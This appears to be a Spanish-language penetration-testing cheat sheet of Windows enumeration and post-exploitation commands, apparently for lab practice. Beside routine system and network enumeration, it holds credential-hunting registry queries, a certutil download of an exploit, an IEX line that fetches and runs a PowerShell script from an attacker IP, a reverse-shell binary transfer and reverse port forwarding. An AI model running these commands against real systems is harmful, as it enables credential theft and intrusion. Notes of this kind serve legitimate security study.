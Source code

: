 #windows 
### Enumeración del sistema

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red

```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```

### smbclient 

```python
	smbclient \\\\spookysec.local\\backup --user user --password pass
```
### Búsqueda de archivos

```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs

cmd.exe /c dir /s /b C:\user.txt
```
### Búsqueda de credenciales

```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus

```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas

```python
	[Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng (github.com)](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)
	
	[bitsadmin/wesng: Windows Exploit Suggester - Next Generation (github.com)](https://github.com/bitsadmin/wesng)

````
## Funciones básicas

### Descarga de archivos[](#descarga-de-archivos)

```python
certutil.exe -urlcache -f 10.10.14.4 exploit.exe
```
### Comprobación de permisos sobre un archivo

```python
accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>
```
### Ejecución de un programa como otro usuario en Powershell

```python
powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"
```
### Windows Port Forwarding

```python
plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>
```
### Transferencia de archivos mediante smb

```python
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows
```
### Desencriptado GPP

```python
gpp-decrypt "<hash>"
```

### Web Client

```python
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.64/SharpHound.ps1')
```

